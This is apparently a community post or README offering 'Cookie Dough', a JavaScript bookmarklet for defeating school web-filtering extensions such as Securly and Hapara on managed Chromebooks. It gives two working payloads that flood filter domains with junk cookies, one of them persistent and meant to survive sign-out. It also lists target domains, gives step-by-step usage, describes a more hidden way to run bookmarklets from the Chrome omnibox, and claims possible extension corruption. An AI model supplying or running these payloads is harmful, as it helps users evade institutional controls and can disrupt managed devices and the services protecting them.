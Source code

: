 **Cookie Dough**™️
*"Redistributions are considered as unwarranted misuse of this material and will be subject to prosecution."* <:whatwasthat:882711175945670687> 

This bookmarklet employs a for loop to screw over websites with the power of browser cookies and the interesting design of ChromeOS. Being a rather old exploit it is **unclear** whether or not this still works with modern Securly. However this bookmarklet DOES work with **Hapara** currently and possibly more. It was initially leaked back when Trusted was a thing and well also the state of it being patched pretty much created the fun inactivity within Licenced today. Fun yoct experiment back when he was messing with blobs and attempting to just lag Chromebooks to death. **(old, old, old, OLD)**

In theory however this bookmarklet could apply for **all** extensions due to its corruption abilities after a powerwash.

**Original (clears upon device signout):**
```js
javascript:for(let _=new Blob;;)document.cookie=URL.createObjectURL(_)+'='+URL.createObjectURL(_),URL.revokeObjectURL(_),Notification.requestPermission()
```

**Long Term (effects do not clear after signout):**
```js
javascript:var _;for(_=0;_<2e3;_++){let _=new Blob;document.cookie=URL.createObjectURL(_)+'='+URL.createObjectURL(_)+';expires='+new Date(2147483647e3).toUTCString(),URL.revokeObjectURL(_),Notification.requestPermission()}
```

**Extension Corruption (?):**
This process was an interesting process that Divide worked on. Essentially if you run Cookie Dough, remove your user or sign out after a powerwash there was a chance extensions would never load. But this was difficult to recreate.

The more people who test this out the better this guide can become.

**Steps for use?**
1) Create a bookmark and paste the above inside
2) Click on the bookmarklet on either one of these sites:

```
https://highlights-messaging.teacherdashboard.com (Hapara)
https://securly.com, https://api.securly.com OR ANY BLOCK PAGE
https://hapara.com
https://teacherdashboard.appspot.com
https://haparaview.appspot.com
```
3) Test by checking if sites are unblocked; if **not** alternate between logging out after running the above or the Original + Long term variants
4) If you get any errors then its possible the above is patched for Securly still; to revert any changes just clear your browsing/history data (or cookies manually)

**[Alternative Route]**
Here is a create route which Yoct came up with ages ago for running bookmarklets using the Omnibox. In theory it much more hidden than a traditional bookmarklet.

1) Head to chrome://settings/searchEngines
2) Create a Search Engine by using the Add buttom
3) Paste the following values (you can change this!)
--
Search engine: `examplescript`
Shortcut: `examplekeywordthatiwilltypeinanomnibox`
URL with %s in place of query: `Paste any of the scripts above here OR any bookmarklet`
--
4) Then simply just type out "examplekeywordthatiwilltypeinanomnibox" in your URL address bar or parts of it; you will notice the epic behavior of it being linked directly to the pasted bookmarklet to run on whatever site

Some devices may experience difficulties processing for loops hence why some users may prefer the Original version of Cookie Dough as it tends to be the least laggy on super low end Chromebooks. *(edited)*
Only ~160 cookies will actually save to each website, but thousands will show up in seconds upon click. Some servers actually can't process much more than 50 cookies, so a person may receive some error messages after the page is refreshed. 

Credits to <@569719207504117780>, <@1058825174935404654> , <@476169716998733834> and <@725438522877804657>
